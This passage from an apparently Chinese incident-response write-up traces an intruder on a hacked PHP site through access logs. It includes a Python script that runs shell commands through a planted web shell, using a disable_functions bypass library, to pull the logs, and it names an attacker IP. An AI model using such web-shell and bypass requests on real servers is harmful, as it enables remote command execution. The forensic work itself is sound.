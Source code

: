     
    
    #coding:utf-8  
    import requests  
      
    for month in range(4,13):  
        for days in range(1,31):  
            date = '%02d' % month + '%02d' % days  
            url = 'http://www.xxxx.com/plugins/layer/mobile/need/back.php?cmd=cat%20/lnweb08/domain/3/8/5/38583/logs/access_log.2020' + date + '&outpath=/tmp/1&sopath=/lnweb08/domain/3/8/5/38583/www/plugins/layer/mobile/need/bypass_disablefunc_x.so'  
            res = requests.get(url=url)  
            fp = open(date+'.txt','w')  
            fp.write(res.content)  
            fp.close()  
    

# 3 攻击者溯源

根据上图可以看到wwConapp.php的日期为2020-11-06
09：34：19,那么比较简单粗暴的方法就是直接在20201106的访问日志里查看谁访问了这个url，初步断定攻击者

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307164106.png)

比较诡异的是这个wwConapp.php没有人访问过，在具体翻看1106文件时发现了端倪

    
    
    115.238.195.188 - - [06/Nov/2020:09:34:37 +0800] "POST //plugins/layer/mobile/need/Conapp.php HTTP/1.1" 500 -  
    115.238.195.188 - - [06/Nov/2020:09:34:38 +0800] "POST //plugins/layer/mobile/need/Conapp.php HTTP/1.1" 200 180  
    115.238.195.188 - - [06/Nov/2020:09:34:39 +0800] "POST //plugins/layer/mobile/need/Conapp.php HTTP/1.1" 200 161  
    

这里时间点对上了，大约在9点34分，有相同目录下的文件访问，但是该文件为Conapp.php，猜测是后来的入侵者将Conapp.php改为了wwConapp.php，这里不再深究。  
至此已经获取到了第一个攻击者的ip，115.238.195.188，那么顺着这个人的访问日志，就能解开攻击入口，事实并不如此。

    
    
    #cat 1106.txt| grep 115.238.195.188 | awk '{print $1,$2,$3,$4,$5,$6,$7,$8,$9,$10}'  
    115.238.195.188 - - [06/Nov/2020:09:22:58 +0800] "POST /search/2.php HTTP/1.1" 200 161  
    115.238.195.188 - - [06/Nov/2020:09:22:59 +0800] "POST /search/2.php HTTP/1.1" 200 153  
    115.238.195.188 - - [06/Nov/2020:09:23:02 +0800] "POST /search/2.php HTTP/1.1" 200 8  
    115.238.195.188 - - [06/Nov/2020:09:23:04 +0800] "POST /search/2.php HTTP/1.1" 200 809  
    115.238.195.188 - - [06/Nov/2020:09:23:07 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    115.238.195.188 - - [06/Nov/2020:09:23:07 +0800] "GET /xiseceshi.html HTTP/1.1" 200 16  
    115.238.195.188 - - [06/Nov/2020:09:23:07 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    115.238.195.188 - - [06/Nov/2020:09:23:08 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    115.238.195.188 - - [06/Nov/2020:09:23:08 +0800] "GET /xiseceshi.htm HTTP/1.1" 200 16  
    115.238.195.188 - - [06/Nov/2020:09:23:08 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    115.238.195.188 - - [06/Nov/2020:09:23:08 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    115.238.195.188 - - [06/Nov/2020:09:23:09 +0800] "GET /xiseceshi.jsp HTTP/1.1" 200 16  
    115.238.195.188 - - [06/Nov/2020:09:23:09 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    115.238.195.188 - - [06/Nov/2020:09:23:09 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    
